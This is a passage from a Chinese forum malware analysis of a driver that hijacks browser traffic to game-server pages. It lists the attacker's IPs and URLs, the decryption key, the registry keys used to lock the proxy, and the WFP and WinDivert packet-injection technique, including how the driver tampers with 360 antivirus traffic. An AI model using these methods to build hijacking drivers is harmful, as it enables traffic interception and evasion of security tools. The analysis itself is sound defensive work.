

Image-34.png (31.26 KB, 下载次数: 1)

[href="forum.php?mod=attachment&aid=Mjc1MTA5MHw3NzU1Njg4ZnwxNzkzNTc2NzU3fDE2ODA4NnwyMDAxODU2&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc1MTA5MHw3NzU1Njg4ZnwxNzkzNTc2NzU3fDE2ODA4NnwyMDAxODU2&nothumb=yes)

2025-1-22 17:16 上传

base64 解码



Image-35.png (252.55 KB, 下载次数: 0)

[href="forum.php?mod=attachment&aid=Mjc1MTA5MXxlODUwYzZhNXwxNzkzNTc2NzU3fDE2ODA4NnwyMDAxODU2&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc1MTA5MXxlODUwYzZhNXwxNzkzNTc2NzU3fDE2ODA4NnwyMDAxODU2&nothumb=yes)

2025-1-22 17:16 上传

取反解密

## 劫持驱动 `txlsddlx64.dat`

### 功能

功能：篡改 360 通信，利用代理劫持、WFP 伪造数据包注入劫持、DNS 劫持实现劫持至传奇私服发布页。

### 下载配置

- 代理劫持脚本：`121.199.27.15:31003/pacheck.dat`
- WFP 劫持规则：`121.199.27.15:31003/lscheck.dat`
- DNS 劫持配置：`121.199.27.15:31003/dncheck.dat`

### 检测 SuperKiller

创建进程回调，检查系统中是否存在进程名为 `SuperKiller` 开头的进程，该检测会在 Windivert 劫持中被利用到。



Image-36.png (54.65 KB, 下载次数: 0)

[href="forum.php?mod=attachment&aid=Mjc1MTA5MnxkNTgwMDA3MXwxNzkzNTc2NzU3fDE2ODA4NnwyMDAxODU2&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc1MTA5MnxkNTgwMDA3MXwxNzkzNTc2NzU3fDE2ODA4NnwyMDAxODU2&nothumb=yes)

2025-1-22 17:16 上传

检测 SuperKiller

### 代理劫持脚本 `pacheck.dat`

#### 劫持原理

通过设置系统自动代理脚本的方式实现劫持，当使用 Chrome、Edge、IE 等浏览器进行访问时，这些浏览器都会使用该脚本。

#### 获取自动代理脚本链接

对 `pacheck.dat` 进行 base64 解码后，得到自动代理配置的下载地址 `netwowroglaowruoglgdjoweraworjvoaijrw4elmoeaiuertlvoaidufwen1.oss-cn-hangzhou.aliyuncs.com/30205.pac`。

#### 劫持至私服发布页

该配置将政府和教育等网址设置为白名单，将其他符合规则的网址劫持至 `47.243.102.155:10000` 和 `180.188.35.151:10000`。



Image-37.png (209.17 KB, 下载次数: 1)

[href="forum.php?mod=attachment&aid=Mjc1MTA5M3xlNjg0MjZlNnwxNzkzNTc2NzU3fDE2ODA4NnwyMDAxODU2&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc1MTA5M3xlNjg0MjZlNnwxNzkzNTc2NzU3fDE2ODA4NnwyMDAxODU2&nothumb=yes)

2025-1-22 17:16 上传

PAC 代码

#### 设置自动代理

该驱动将 `Software\Policies\Microsoft\Internet Explorer` 项中 `Autoconfig` 设置为 1，使用户无法修改代理自动配置选项。同时，将 `Software\Microsoft\Windows\CurrentVersion\Internet Settings` 项中 `AutoConfigURL` 设置为 PAC 脚本下载地址。



Image-38.png (215.87 KB, 下载次数: 0)

[href="forum.php?mod=attachment&aid=Mjc1MTA5NHxkZTIyYmY0OXwxNzkzNTc2NzU3fDE2ODA4NnwyMDAxODU2&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc1MTA5NHxkZTIyYmY0OXwxNzkzNTc2NzU3fDE2ODA4NnwyMDAxODU2&nothumb=yes)

2025-1-22 17:16 上传

设置 Autoconfig 注册表截图



Image-39.png (90.7 KB, 下载次数: 0)

[href="forum.php?mod=attachment&aid=Mjc1MTA5NXw3MjAwM2NhNHwxNzkzNTc2NzU3fDE2ODA4NnwyMDAxODU2&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc1MTA5NXw3MjAwM2NhNHwxNzkzNTc2NzU3fDE2ODA4NnwyMDAxODU2&nothumb=yes)

2025-1-22 17:16 上传

设置 AutoConfigURL 代码

随后注册注册表回调，使用户无法修改或删除 `AutoConfigURL` 键。

### 注册表回调

### WFP 劫持规则 `lscheck.dat`

#### 劫持原理

利用 WFP 过滤驱动框架伪造数据包，从而实现劫持。

#### lscheck.dat

该文件是一个静态域名劫持规则文件，其结构为【原网站地址】：【劫持后网址（私服发布页）】。当前配置会将多数原网站劫持至 `47.243.66.208:81/z.html`。

#### 解码解密

下载到的 `lscheck.dat` 数据首先经过 base64 解码，随后使用 AES 算法和秘钥 `0XBCDKEDFALDKADSLJFLJASDF` 对其前 16 字节进行解密，得到以下内容。



Image-41.png (620.79 KB, 下载次数: 0)

# `lscheck.dat`

[下载 `lscheck.dat`](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc1MTA5Nnw3ZmEyMjRhZnwxNzkzNTc2NzU3fDE2ODA4NnwyMDAxODU2&nothumb=yes)

## 有 # 符号劫持

`lscheck.dat` 中存在以井字符号开头的劫持规则，如下图：



[以井字符号开头的劫持规则](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc1MTA5OHxiM2FkOWVmN3wxNzkzNTc2NzU3fDE2ODA4NnwyMDAxODU2&nothumb=yes)

劫持方案：驱动在接收数据时对该类规则进行拦截，伪造数据包后注入，从而完成劫持。

劫持技术手段：通过 WFP 框架中的 `FwpmFilterAdd0` 函数定义过滤规则，循环读取以井字符号开头的 IP，并将其设置为过滤条件中的目标 IP。



[过滤条件设置](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc1MTA5OXw1MWQ1MzNhMnwxNzkzNTc2NzU3fDE2ODA4NnwyMDAxODU2&nothumb=yes)

伪造数据包注入实现劫持：接收数据时伪造回复包，在回复包内嵌入传奇私服发布页域名，随后将回复包内存映射至 `MDL`，并利用 `MDL` 初始化新分配的网络缓冲区和网络缓冲区列表。最后，利用 `FwpsStreamInjectAsync0` 函数注入该网络缓冲区列表实现劫持。



[设置回复包](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc1MTEwMHxjMDM0ZTlmZHwxNzkzNTc2NzU3fDE2ODA4NnwyMDAxODU2&nothumb=yes)



[注入回复包](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc1MTEwMXxlODJlNTBiM3wxNzkzNTc2NzU3fDE2ODA4NnwyMDAxODU2&nothumb=yes)



[伪造数据包注入实现劫持](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc1MTEwMnwwMGY0MThiZnwxNzkzNTc2NzU3fDE2ODA4NnwyMDAxODU2&nothumb=yes)

## 无 # 符号劫持

劫持方案：对于无井字符号开头的劫持规则，驱动会拦截请求包，构造虚假回复包并发送至本地，从而完成劫持。

劫持技术手段：该驱动利用了 `Windivert` 开源项目来实现劫持。首先完成 `Windivert` 的初始化，然后设置拦截规则；接着循环获取拦截包，并伪造虚假的回复包发送到本地，从而完成整个劫持过程。

`Windivert` 拦截规则：

- 发送包
- 非回环流量
- IP 协议
- 目标端口 80
- 数据包载荷大小大于 0



[Windivert 拦截规则设置](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc1MTEwM3xiYjBkMGUzNXwxNzkzNTc2NzU3fDE2ODA4NnwyMDAxODU2&nothumb=yes)

其中循环获取拦截包时会判断两种情况：

1. 请求包中是否存在 `x-360-ver`；
2. 请求包中 `Host` 是否符合 `lscheck.dat` 中被劫持网址规则。

篡改数据包：第一种情况只有在 `SuperKiller`（即 360 急救箱）进程存在时才会进行判断，判断后检查请求包，并将其中的字符串 `x-360-ver` 修改为 `x-36O-ver`。

通过测试发现，版本号为 `5.1.64.1282` 的 360 急救箱进程名为 `SuperKillller.exe`，因此驱动无法判断 360 急救箱进程是否存在。为了测试是否会干扰 360 急救箱网络通信，将进程名 `SuperKillller.exe` 改为 `SuperKiller.exe`，结果发现无任何异常。



[修改请求包](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc1MTEwNHwyMjI5Y2F